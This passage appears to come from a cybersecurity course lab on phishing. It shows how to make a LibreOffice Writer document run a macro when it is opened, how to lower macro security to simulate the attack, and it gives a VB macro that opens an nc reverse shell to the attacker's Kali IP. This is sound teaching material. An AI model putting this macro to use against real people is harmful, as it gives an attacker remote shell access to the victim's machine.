 ==action: After you have entered some code, to get the macro to run when the document is opened:==

==action: Minimise the Macro code window==. 

==action: Click the document's menu Tools → Customise → Events (tab)==

==action: Select "Open Document"==

==action: Click "Macro…"==

> Tip: If you cannot see your macro, you may have opened the 'Customise' pane via the Macro window's toolbar rather than the Document window's toolbar.

==action: Expand the "+" next to Untitled 1, Standard, macro, and select the Main on the right==.

![][image-13]

==action: Type some content into your document and save it as an .odt file==.

Now when you open the document up it will try to execute it (if your victim's macro security settings are set low, and they agree to run it).

==action: Try open the document that you just created locally on the Kali VM in LibreOffice Writer==.

![][image-14]

You will see a warning at the top of the page suggesting that the macro will not run. This is due to the fact the Kali VM has a restrictive macro security setting, but this is not always the case. 

==action: In order to simulate the attack locally you should downgrade your macro security settings:==

==action: Click the document's Tools → Options==

==action: Select LibreOffice → Security from the side panel, then click Macro Security…== 

![][image-15]

==action: Change the Security Level to Low==

It is worth noting that the Medium level requires confirmation from the user, but still allows them to run macros if they accept the risks. When the user accepts the warning, macros will execute. 

Some word processors are configured this way by default and it is common for less technically proficient end-users to click through security warnings without understanding the consequences. 

==action: You can create a macro that creates a simple reverse shell using nc:==

```vb
Sub Main
  Shell("/bin/nc", vbNormalFocus, "-e /bin/sh ==edit:KALI_IP_ADDRESS== 8080")
End Sub
```

Where ==edit:KALI_IP_ADDRESS== is the IP address reported from:

```bash
hostname -I
```


[image-1]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-14.png
[image-15]: {{ site.baseurl }}/assets/images/cyber_security_landscape/3_phishing/image-15.png